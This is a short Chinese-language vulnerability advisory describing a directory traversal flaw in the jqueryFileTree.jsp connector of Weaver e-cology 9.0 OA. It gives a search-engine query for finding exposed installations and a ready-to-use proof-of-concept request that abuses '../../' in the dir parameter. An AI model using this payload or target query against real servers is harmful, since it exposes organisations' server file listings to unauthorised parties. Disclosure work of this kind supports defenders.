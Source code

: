 # 

# 泛微OA E-Cology jqueryFileTree.jsp 目录遍历漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等，其中 jqueryFileTree.jsp 文件中 dir 参数存在目录遍历漏洞，攻击者通过漏洞可以获取服务器文件目录信息

## 漏洞影响

```
泛微e-cology 9.0
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![1](./images/202209131045944.png)

验证POC

```
/hrm/hrm_e9/orgChart/js/jquery/plugins/jqueryFileTree/connectors/jqueryFileTree.jsp?dir=/page/resource/userfile/../../
```

![2](./images/202209131046623.png)
